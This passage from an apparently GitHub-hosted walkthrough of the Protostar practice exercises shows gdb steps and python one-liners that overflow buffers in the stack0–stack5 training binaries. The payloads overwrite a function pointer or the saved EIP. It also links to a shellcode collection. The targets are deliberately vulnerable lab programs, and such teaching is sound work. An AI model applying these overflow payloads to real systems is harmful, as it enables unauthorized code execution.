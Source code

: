 > 12. Get address of win function
>     `(gdb) x win`
>
>     Example Output:
>      0x8048424 <win>:	0x83e58955
>     
>     In this example `0x8048424` is the address
>
> 12. `(gdb) quit`
>      Enter y if asked to Quit anyway
>
> 13. `python -c "print('A' * 64 + '\x24\x84\x04\x08')" >  /tmp/arg`
>                                   ^bytes are backward because
>                                    x86 architecture is little endian
> 14.  $ gdb stack3
>
> 15.  `(gdb) set disassembly-flavor intel`
>
> 16. Print registers, subset of stack, and upcoming intructions
>     after each step
>
>     `(gdb) define hook-stop`
>     `> python print '------------------------'`
>     `> info registers`   #prints registers
>     `> python print '------------------------'`
>     `> x/24wx $esp`      #prints stack
>     `> python print '------------------------'`
>     `> x/5i $eip`        #prints instructions
>     `> python print '------------------------'`
>     `> end`
>
> 17.  Set breakpoint after user input:
>      `(gdb) break *(main+29)`
>
> 18.  `(gdb) run < /tmp/arg`
>
> 19.  Should be at instruction: `<main+29>:  cmp  DWORD PTR [esp+0x5c],0x0`
>      `(gdb) x/x $esp+0x5c`
>                  ^this should be equal to the address in step 13
>                   0x08048424 in this example
>
> 20.  `(gdb) continue`
>
>      Expected output:
>       Continuing.
>       calling function pointer, jumping to 0x08048424
>       code flow successfully changed



# Stack4: Controlling the EIP Register
------------------------------------------------------------------------
[Walkthrough]: https://www.youtube.com/watch?v=iyAyN3GFM7A&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN
^Start from 3:45


[Protostar]: https://exploit-exercises.lains.space/protostar/
[Protostar ISO]: https://drive.google.com/drive/folders/0B9RbZkKdRR8qbkJjQ2VXbWNlQzg?usp=sharing
[Reference Stack 0-7]: https://kevinalmansa.github.io/write-ups/Protostar-Stack-Write-up/
[Walkthroughs]: https://www.youtube.com/watch?v=iyAyN3GFM7A&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN
[Walkthrough]: https://www.youtube.com/watch?v=T03idxny9jE&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=13&ab_channel=LiveOverflow
[Simple]: python -c "print('A' * 65)" | ./stack0
[Detailed]: Step-by-Step
[Simple]:  ./stack1 $(python -c "print 'A' * 64 + '\x64\x63\x62\x61'")
[Simple]: python -c "print('A' * 64 + '\x24\x84\x04\x08')" | ./stack3
[Detailed]: Step-by-Step
[Simple]: python -c "print('A' * 76 + '\xf4\x83\x04\x08')" | ./stack4
[Detailed]: Step-by-Step
[Shellcode]: http://shell-storm.org/shellcode/
[Simple]: $ python -c "print('\x90' * 75 + 'BBBB')" | ./stack5
[Detailed]: Step-by-Step
[Walkthrough]: https://www.youtube.com/watch?v=Y1RRda2Wnpw
[Walkthrough]: https://www.youtube.com/watch?v=m17mV24TgwY
[Walkthrough]: https://www.youtube.com/watch?v=IncswlWGn1M